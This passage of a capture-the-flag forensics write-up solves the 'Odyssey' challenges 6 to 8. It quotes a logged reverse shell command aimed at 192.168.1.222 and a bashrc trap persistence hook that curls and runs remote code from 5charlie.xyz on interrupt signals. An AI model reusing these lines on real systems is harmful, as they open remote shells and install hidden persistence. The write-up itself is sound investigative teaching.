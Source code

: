 ### Odyssey 6 - Solution

``` text
2020-04-18 06:07:34.075 UTC,"ulysses","ithaca",131,"172.17.0.3:37542",5e9a9827.83,7,"idle",2020-04-18 06:03:19 UTC,3/11,0,LOG,00000,"statement: INSERT INTO scylla(t) VALUES('bash -i >& /dev/tcp/192.168.1.222/9292 0>&1');",,,,,,,,,"psql"
```

**Flag:** `192.168.1.222`

## Odyssey 7

### Odyssey 7 - Challenge

What is the full url curled by the persistence mechanism installed on this host?

### Odyssey 7 - Solution

No hints in logs, so let's look elsewhere. I usually like `ls -latr` to sort by modification time for finding persistence, but it looks like everything was changed pretty close to the same time and/or timestomped.

I'm lazy, we know it performs curl, let's just find it.

{% highlight bash %}
grep -R 'curl' / 2>/dev/null
{% endhighlight %}

Almost immediately we receive a match on the following:

``` text
/etc/bashrc:trap 'bash <(curl -s http://5charlie.xyz/index)' 2 3
```

**Flag:** `http://5charlie.xyz/index`

## Odyssey 8

### Odyssey 8 - Challenge

The curl to 5charlie.xyz is triggered by which process signals? (format: signame,signame)

### Odyssey 8 - Solution

The `trap` command executes a command when the shell receives a signal.
You can see the signals in their numeric forms in the command above.
We just need to look up a reference to understand what they correlate to, for those of us who don't have them memorized.
<https://ss64.com/bash/trap.html>

``` text
...[truncated]
2     SIGINT  Interrupt (CTRL-C)
3     SIGQUIT  Quit
```
